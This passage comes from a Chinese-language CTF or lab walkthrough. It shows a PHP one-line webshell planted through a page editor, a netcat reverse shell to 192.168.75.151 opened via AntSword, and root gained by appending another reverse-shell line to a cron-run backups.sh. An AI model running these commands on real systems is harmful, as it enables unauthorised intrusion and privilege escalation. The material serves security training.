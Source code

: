     ![image.png](image%2042.png)
    
    内容改为一句木马，然后内容格式化改为`php` ，然后保存
    
5. 保存后复制页面链接使用蚁🗡连接，然后使用蚁🗡反弹`shell`
    
    ```python
    (www-data:/var/www/html) $ nc 192.168.75.151 1234 -e /bin/bash
    ```
    
    获得`www-data`的`shell`
    
    ```python
    whoami
    www-data
    ```
    
6. 我们知道`backups.sh`脚本属主为`root`，属组为`www-data` ，回到`backups.sh`的目录，将反弹`shell`语句插入脚本
    
    ```python
    echo "nc 192.168.75.151 1233 -e /bin/bash" >> backups.sh
    ```
    
    插入后等待任务自动执行，就能获得`root`的权限了
    
    ```python
    nc -lvp 1233
    listening on [any] 1233 ...
    
    id
    192.168.75.178: inverse host lookup failed: Unknown host
    connect to [192.168.75.151] from (UNKNOWN) [192.168.75.178] 54920
    uid=0(root) gid=0(root) groups=0(root)
    ```
    